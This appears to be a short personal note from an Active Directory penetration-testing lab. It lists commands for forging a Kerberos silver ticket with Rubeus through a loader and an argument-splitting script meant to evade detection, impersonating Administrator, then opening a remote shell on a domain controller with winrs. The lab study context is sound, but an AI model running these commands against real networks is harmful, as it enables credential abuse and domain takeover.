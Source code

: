 [[Lateral Movement]]
this is only to abuse users. 
```
C:\AD\Tools\ArgSplit.bat
```
```
echo %Pwn% -> silver
```
```
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:<machine-hosting-this-user> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
check if we got the correct service ticket
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%
```
now we have the proper ticket.
```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
```
```
set username
```
```
set computername
```
